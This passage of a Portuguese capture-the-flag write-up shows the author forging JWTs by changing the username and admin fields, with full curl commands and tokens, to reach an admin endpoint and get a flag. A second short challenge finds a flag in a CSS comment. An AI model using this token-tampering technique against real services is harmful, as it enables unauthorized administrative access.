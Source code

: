 ```shell
curl 'http://18.231.79.49/Admin/' -s \
  -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjMiLCJhZG1pbiI6ImdlaHIiLCJpYXQiOjE2MTk1NjMxMzl9.-pJPU_2EmGiFoY-CjoG0IT_zXfhcGH6M7nHLL-XPLPc'
```
Mas agora recebo outro erro: Username not found in admin list.

Volto à página inicial do site e reparo que existe um menu chamado 'Our admins'. Esse link retorna um arquivo, e neste arquivo existem alguns nomes de admins. Altero novamente no JWT, dessa vez o atributo username, para que contenha um dos nomes da lista (ofuscado com o tal algoritmo que transforma true em gehr e que não nos é necessário saber a origem uma vez que basta um request para ofuscar um valor desejado)

```shell
curl 'http://18.231.79.49/Admin/' -s \
  -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Indid2IiLCJwYXNzd29yZCI6IjEyMyIsImFkbWluIjoiZ2VociIsImlhdCI6MTYxOTU2MzY5Nn0.exwPDuBJdHwbhxThXchcGryrlo8YcCM2gtgACMMkLvQ'
```

E agora sim, parece que nossa flag está à vista : `Hey jojo! Here's your flag: MHC-{vqqdq vqxsn}`

Faço um último request passando como username a própria flag, e obtenho ela em texto plano.

```shell
curl -s -i 'http://18.231.79.49/login' \
--data-raw 'username=MHC-{vqqdq vqxsn}&password=123' | grep 'x-access-token'
```

![Jail want Tonic](/web/jail-want-tonic/003.png)
 
E por fim temos nossa flag: ZUP-{iddqd idkfa}

### Wrong page! ###

Esse desafio nos dava uma página html de url http://54.232.129.62/61ec5ae1-cfbf-4b83-b432-5644c916c94b/ 
com o dizer 'página errada'. Demorou um tempo para eu sacar e olhar no css, que a flag na verdade estava em um
comentário dentro do css.

![Zupinhas Wrong Page](/web/wrong-page/001.png)
